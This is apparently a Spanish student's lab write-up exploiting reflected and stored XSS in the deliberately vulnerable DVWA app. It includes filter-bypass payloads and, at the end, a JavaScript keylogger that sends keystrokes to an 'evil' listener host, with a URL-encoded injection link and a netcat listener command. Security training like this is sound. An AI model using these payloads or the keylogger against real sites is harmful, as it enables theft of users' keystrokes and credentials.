 # Ejercicio 5

En todos los ejercicios suponga que las BWA estan levantada en 192.168.1.20

## XSS reflected

### Easy version

Mirando el codigo, vemos que no hay ningun tipo de sanitizer

```
 <?php

if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){

 $isempty = true;

} else {
        
 echo '<pre>';
 echo 'Hello ' . $_GET['name'];
 echo '</pre>';
    
}

?> 
```

Esto nos permite hacer XSS simplemente ingresando a:
`http://192.168.1.20/dvwa/vulnerabilities/xss_r/?name=<script>alert(1)</script>`

### Medium version

El nuevo codigo, evita que mandemos el tag `<script>`

```
 <?php

if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){

 $isempty = true;

} else {

 echo '<pre>';
 echo 'Hello ' . str_replace('<script>', '', $_GET['name']);
 echo '</pre>'; 

}

?> 
```

Pero de nuevo, podemos mandar tranquilamente el tag con un espacio en el medio `http://192.168.1.20/dvwa/vulnerabilities/xss_r/?name=<script >alert(1)</script>`

### Hard version

El nuevo codigo pareciera estar escapando los caracteres especiales de HTML
```
 <?php
    
if(!array_key_exists ("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
    
 $isempty = true;
        
} else {
    
 echo '<pre>';
 echo 'Hello ' . htmlspecialchars($_GET['name']);
 echo '</pre>';
        
}

?> 
```

Leyendo la documentacion, vemos que la funcion convierte:

| Symbol   |      Replacement      |
|:----------:|:-------------:|
| & | \&amp; |
| " | \&quot; |
| ' | \&#039; or \&apos; |
| < | \&lt; |
| > | \&gt; |

De igual manera, el caracter `'` solo se reemplaza cuando la flag ` ENT_QUOTES` esta seteada, asi que deberiamos buscar algo con este caracter

Me parece que esto no se puede romper con HTML, pero seria vulnerable a SQL injection en todo caso, ya que podemos usar `'` y `\` (ya que no hay un `strip_slashes`)

Capaz igual estoy equivocado, sigo pensando

## XSS stored

### Easy version

Mirando el codigo, vemos que se hace un `INSERT` en una tabla de la DB. Se hace el escaping correspondiente para evitar sql-injections.

```
 <?php

if(isset($_POST['btnSign']))
{

   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);
   
   // Sanitize message input
   $message = stripslashes($message);
   $message = mysql_real_escape_string($message);
   
   // Sanitize name input
   $name = mysql_real_escape_string($name);
  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
   
}

?> 
```

De igual manera, el string `<script>X</script>` deberian sobrevivir sin problemas, y guardarse en la DB. Entonces, cada vez que alguien carge una pagina que muestre resultados, se ejecutara el script X

Mandamos entonces: 
> name: asd

> message: \<script>alert(1)\</script>

### Medium version

La diferencia con el codigo anterior es que ahora en el mensaje se aplica un buen escaping (`strip_tags` + `htmlespecialchars`), pero porque no al nombre?

```
 <?php

if(isset($_POST['btnSign']))
{

   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);
   
   // Sanitize message input
   $message = trim(strip_tags(addslashes($message)));
   $message = mysql_real_escape_string($message);
   $message = htmlspecialchars($message);
    
   // Sanitize name input
   $name = str_replace('<script>', '', $name);
   $name = mysql_real_escape_string($name);
  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
   
}

?> 
```

Desde el front-end, podemos comprobar que no nos deja escribir algo tan largo... Se ve que confian en eso. Lamentablemente tenemos el codigo, y sabemos que es una request POST a la misma url. Solo nos queda ver como superamos la linea `$name = str_replace('<script>', '', $name);`

Si le ponemos un espacio antes del `>` (como antes), tiene el mismo efecto el tag, por lo tanto, usando un proxy, reemplazamos:
> name = \<script >alert(1); \</script>

### Hard version

No pareciera ser rompible, pero pensando aun


# Leakear los keystrokes del usuario

Codigo para atrapar las keys del user

```
<script>
var keys = '';
 
document.onkeypress = function(e) {
   var get = window.event ? event : e;
   var key = get.keyCode ? get.keyCode : get.charCode;
   key = String.fromCharCode(key);
   keys += key;
}
 
window.setInterval(function(){
   fetch('http://localhost:1337/evil/site?key=' + keys);
   keys = '';
}, 5000);
</script>
```

En vez de mandar `alert(1)`, podemos mandar el url encode del codigo de arriba, por ejemplo

`
http://192.168.1.20/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3E%0Avar%20keys%20%3D%20%27%27%3B%0A%20%0Adocument%2Eonkeypress%20%3D%20function%28e%29%20%7B%0A%20%20%20var%20get%20%3D%20window%2Eevent%20%3F%20event%20%3A%20e%3B%0A%20%20%20var%20key%20%3D%20get%2EkeyCode%20%3F%20get%2EkeyCode%20%3A%20get%2EcharCode%3B%0A%20%20%20key%20%3D%20String%2EfromCharCode%28key%29%3B%0A%20%20%20keys%20%2B%3D%20key%3B%0A%7D%0A%20%0Awindow%2EsetInterval%28function%28%29%7B%0A%20%20%20fetch%28%27http%3A%2F%2Flocalhost%3A1337%2Fevil%2Fsite%3Fkey%3D%27%20%2B%20keys%29%3B%0A%20%20%20keys%20%3D%20%27%27%3B%0A%7D%2C%205000%29%3B%0A%3C%2Fscript%3E
`

(Puede abrir escuchar la request haciendo `nc -lvp 1337`)

Este ataque aplica a cualquier ataque detallado arriba
